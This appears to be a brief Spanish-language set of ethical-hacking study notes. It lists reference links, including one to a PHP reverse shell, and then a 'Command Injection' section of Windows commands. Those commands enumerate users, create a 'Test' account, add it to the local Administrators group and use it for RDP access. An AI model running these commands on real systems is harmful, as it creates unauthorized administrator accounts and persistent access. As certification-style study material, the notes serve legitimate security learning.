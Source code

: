 > Estas son algunas referencias que me parece interesante tener en cuenta

### https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### https://www.invicti.com/learn/remote-code-execution-rce/

### https://swisskyrepo.github.io/InternalAllTheThings/

### https://github.com/Creanyx0/CEHv12-practical-Notes/blob/main/Elisa-Alises-NotesCEHv12.md

<br>

###Command Injection

``net user``  (Find users)
 		       
``dir C:\`` (directory listing)

``net user Test/Add``  (Add a user)

``net user Test``      (Check a user)

``net localgroup Administrators Test/Add``   (To convert the test account to admin)

``net user Test``      (Once again check to see if it has become administrator) *Now you can do a RDP connection with the given ip and the Test account which you created.*
